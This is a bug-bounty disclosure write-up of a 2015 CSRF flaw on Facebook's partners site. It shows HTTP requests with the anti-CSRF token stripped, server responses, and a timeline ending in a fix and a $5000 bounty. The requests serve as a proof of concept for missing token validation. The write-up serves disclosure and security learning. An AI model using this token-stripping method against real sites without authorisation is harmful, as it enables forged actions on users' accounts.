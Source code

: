 
>CSRF in partners.facebook.com

I was looking for something on internet.org, But there is an option for submitting your site to internet.org.That redirected me to this https://partners.facebook.com/cp/onboarding/ .

Jack Whitton wrote an article on site wide csrf in messenger.com. This one explained how facebook was not properly validating the csrf tokens at server side .

My sixth sense was saying that this site would be rarely visited so there would be some bugs. Intially I was trying for IDOR but it failed. Then I tried to remove the fb_dtsg the server response was 200.
Here is the tcp dump of [ Original Request, Edited request, Response].

```html

POST /cp/onboarding/submit/ HTTP/1.1
Host: partners.facebook.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Content-Length: 726
Cookie: {COOKIE}
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

fb_dtsg=[token]&site_name=prashanth&short_description=asdasdasdsadasdasd&long_description=asdasdasdasdadasd%20asdjnasjdnasjdnas%20dasjndjasndjansdas%20dasjndjasd&category=communication&submission_id=1664831777136420&partner_id&
country_configs[IN][locales][en_GB][http]=yilo.me%2F&country_configs[IN][locales][en_GB][https]=&country_configs[IN][default]=en_GB&country_configs[IN][status]=pending1&country_configs[IN][comment]&country_configs[IN][action]=add&country_configs[IN][config_fbid]=1664831780469753&
country_configs[IN][is_editable]=true&country_configs[IN][is_deletable]=true&__user=1529285343&__a=1

```



Edited request:
```html
POST /cp/onboarding/submit/ HTTP/1.1
Host: partners.facebook.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.10; rv:39.0) Gecko/20100101 Firefox/39.0
Content-Length: 726
Cookie: {COOKIE}
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

site_name=prashanth&short_description=asdasdasdsadasdasd&long_description=asdasdasdasdadasd%20asdjnasjdnasjdnas%20dasjndjasndjansdas%20dasjndjasd&category=communication&submission_id=1664831777136420&partner_id&
country_configs[IN][locales][en_GB][http]=yilo.me%2F&country_configs[IN][locales][en_GB][https]=&country_configs[IN][default]=en_GB&country_configs[IN][status]=pending1&country_configs[IN][comment]&country_configs[IN][action]=add&country_configs[IN][config_fbid]=1664831780469753&
country_configs[IN][is_editable]=true&country_configs[IN][is_deletable]=true&__user=1529285343&__a=1

```

Response:

```js
HTTP/1.1 200 OK
X-Frame-Options: DENY
Pragma: no-cache
X-FB-Debug: Dmgrhewc6N5fT+i20ldq1OlYtN45IWMAcGGzafxtVMGqClAKvDjbysUAbMhoR1YfQjL0S5p5deoLKdlEqkBb1w==
Date: Mon, 24 Aug 2015 10:58:38 GMT
Connection: keep-alive
Content-Length: 193

for (;;);{"__ar":1,"payload":null,"jsmods":{"require":[["goURI"]]},"onload":["goURI(\"\\\/cp\\\/onboarding\\\/?submission_id=424609417741749\", true);"],"bootloadable":{},"ixData":{},"lid":"0"}

```

Csrf check is missing on every endpoint of partners.facebook.com. Even some can change the submitted site using the id of the post .This could impact the site owners and there reputation.
Another request which uploads banner photo of site
Request:
```html
POST /cp/onboarding/images/submit/?__user=1529285343&__a=1
Host: partners.facebook.com
Content-Type: multipart/form-data; boundary=---------------------------3455666841143476500578378497


-----------------------------3455666841143476500578378497
Content-Disposition: form-data; name="banner"; filename="love.png"
Content-Type: image/png
-----------------------------3455666841143476500578378497--
```


Response:

```html
HTTP/1.1 200 OK
X-Frame-Options: DENY
Pragma: no-cache
X-FB-Debug: Dmgrhewc6N5fT+i20ldq1OlYtN45IWMAcGGzafxtVMGqClAKvDjbysUAbMhoR1YfQjL0S5p5deoLKdlEqkBb1w==
Date: Mon, 24 Aug 2015 10:58:38 GMT
```


Timeline:<br>
Bug reported:20 August, 2015<br>
Bug acknowledged:21 August, 2015<br>
Bug Poc sent: 24 August, 2015<br>
Bug triaged:3 September,2015<br>
Bug fixed:18 September, 2015 (Now response is 400 if csrf tokens are missing)<br>
Bug bounty awarded :19 September, 2015 . Facebook awarded me 5000$
